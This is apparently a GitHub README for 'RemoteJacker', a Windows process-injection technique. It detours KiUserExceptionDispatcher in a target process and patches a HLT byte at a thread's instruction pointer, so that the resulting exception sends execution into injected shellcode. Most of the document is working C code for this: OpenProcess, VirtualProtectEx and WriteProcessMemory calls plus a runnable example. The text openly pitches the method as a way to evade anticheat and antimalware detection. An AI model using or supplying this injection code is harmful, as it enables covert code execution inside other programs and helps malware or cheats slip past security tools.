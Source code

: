 # RemoteJacker

## Overview

This is about code injection via hijacking threads instead of creating a remote thread. There are methods of code injection where you can create a thread from another process using **CreateRemoteThread** at an executable code location (Or DLL Injection via **CreateRemoteThread** and executing **LoadLibrary**, passing an argument in the **CreateRemoteThread** routine).

There are other ways of code injection to, one of them is hijacking an already running thread. Most methods to do this use **GetThreadContext** and **SetThreadContext**. That method suspends the thread(s) or the process, gets the context of a running thread in a process, writes the extended instruction pointer in the context structure to that of another executable location, then it sets the thread context and resumes the thread(s) or process.

Of course, **CreateRemoteThread** is preferred to not interrupt an application while it's doing something possibly important. Thread hijacking is commonly used to bypass anticheats and antimalware. Antimalware checks for routines that could be used for code injection and are suspicious (**CreateRemoteThread**), while anticheats (espec. kernel-mode anticheats) would attempt to block opening a handle to a thread that they have ownership of from another process. They would also prevent the use of **SetThreadContext** for their threads. The more known a method is, the more anticheats implement ways to obstruct those methods.

**RemoteJacker** detours the SEH dispatcher to an executable code location the developer wants. It causes the thread to redirect to this area by throwing an exception.

```C
ULong GetDispatcher(ULong ProcessId)
{
	NTPtr Dispatcher = (NTPtr)GetProcAddress(GetModuleHandleA("ntdll.dll"), "KiUserExceptionDispatcher");
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);

	if (!Process)
		return NULL;
	else
		CloseHandle(Process);
	
	ULong Difference = ((ULong)Dispatcher - (ULong)GetModuleHandleA("ntdll.dll"));
	return (GetModuleBase(ProcessId, L"ntdll.dll") + Difference + 1);
}
```

The **GetDispatcher** function gets the virtual address of **KiUserExceptionDispatcher** and returns it as an integral type.

```C
ULong MarkShellCode(ULong ProcessId, ULong Shellcode)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Shellcode, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);

	CloseHandle(Process);
	return FormerProtection;
}
```

The **MarkShellCode** function sets the memory region protections at the executable location (Or Shellcode) and returns the former page protection.

```C
void SetDispatcher(ULong ProcessId, ULong Address, ULong ShellCode)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Address, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);
	WriteHook(Process, GetDispatcher(ProcessId), ShellCode);
	VirtualProtectEx(Process, (LPVOID)Address, 1, FormerProtection, &FormerProtection);

	CloseHandle(Process);
}
```

The **SetDispatcher** function detours KiUserExceptionDispatcher in the target process.

```C
void RemoteJack(ULong ProcessId, ULong Target)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Target, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);
	WriteProcessMemory(Process, (LPVOID)Target, "\xF4", 1, 0);
	VirtualProtectEx(Process, (LPVOID)Target, 1, FormerProtection, &FormerProtection);

	CloseHandle(Process);
}
```

The **RemoteJack** function causes an exception to occur at a thread's instruction pointer and it gets handled by SEH so we can redirect it in the dispatcher.

Here is an example: 

```C
int main(void)
{
	ULong PId = FindProcessIdFromProcessName(L"test.exe");
	ULong Dispatcher = GetDispatcher(PId);
	ULong ShellCode = 0x04E90000;
	ULong TargetVal = 0x00C92D50;
	ULong Protection = MarkShellCode(PId, ShellCode);

	SetDispatcher(PId, Dispatcher, ShellCode);
	RemoteJack(PId, TargetVal);

    return 0;
}

```

This hijacks an already existing thread without opening any thread handles and you can choose the location that the thread gets hijacked at, unlike **GetThreadContext & SetThreadContext**. This method is also very simple to implement.
